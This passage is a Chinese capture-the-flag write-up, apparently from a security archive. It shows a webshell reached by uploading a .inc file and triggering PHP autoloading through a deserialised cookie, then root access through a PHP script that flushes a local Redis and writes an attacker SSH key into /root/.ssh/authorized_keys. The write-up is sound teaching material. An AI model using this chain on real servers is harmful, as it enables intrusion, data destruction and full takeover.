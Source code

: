 getshell
--------

首先通读源码，发现有几个特点：

> 1.  可以上传任意文件，后缀有黑名单检查，文件名是随机字符串md5值
> 2.  数据存储于cookie中，通过php反序列化函数还原并显示

其实考察点比较有意思。  
看到common.inc.php里，包含spl_autoload_register函数，这个函数是自动注册类用的，在当今特别是新型的框架（laravel、composer）中常用。  
这个函数有个特点，如果不指定处理用的函数，就会自动包含“类名.php”或“类名.inc”的文件，并加载其中的“类名”类。  
这就比较有意思了，我们之前的黑名单是不包括“.inc”文件的，所以我们可以按照下面方法进行getshell：

1.上传webshell，后缀为.inc，被重命名为xxxx.inc

![](http://drops.javaweb.org/uploads/images/abe563f483d296fda7dd1aea110da9dd78f5ca5f.jpg)

2.序列化一个类名为xxxx的类对象

![](http://drops.javaweb.org/uploads/images/1e4a3c54aea9d0fb739daafd081d310a77c685ce.jpg)

3.将序列化以后的字符串作为cookie，发送到服务器上

![](http://drops.javaweb.org/uploads/images/49d26761a145daa45be6d8fb4cac11a4d9a0d1f1.jpg)

4.服务器反序列化这个字符串后，将会自动加载xxxx类，由于之前spl_autoload_register函数注册的方法，会自动加载xxxx.inc，从而造成文件包含漏洞，getshell成功

![](http://drops.javaweb.org/uploads/images/d1b27faa0c864e8121bc2cbb59e44e0c5a2e1195.jpg)

在网站根目录的flag-1.php中获得第一个flag。

利用本地redis提权
-----------

拿到webshell以后，查看一下服务器的一些敏感信息。  
比如在phpinfo里看到了，session的处理方式用的redis，并且save_path里暴露了redis的端口和密码：

![](http://drops.javaweb.org/uploads/images/cc28aea9a9025beb025c77e3bf09ffa234f7dcb1.jpg)

于是可以利用这段时间比较火的redis写公钥文件进行提权。  
直接编写一个redis.php，用php来连接redis，执行redis写公钥的POC：

```
<?php 
$redis = new Redis(); 
$redis->connect('127.0.0.1', 21821); 
$redis->auth("Tat141uIyX8NKU"); 
$redis->flushall(); 
$redis->config("SET", "dir", "/root/.ssh/"); 
$redis->config("SET", "dbfilename", "authorized_keys"); 
$redis->set("0", "\n\n\nssh-rsa key_pub\n\n\n"); 
$redis->save();

```

连接其ssh端口，直接获取root权限。  
读取/root/flag-2.txt获得第二个flag。
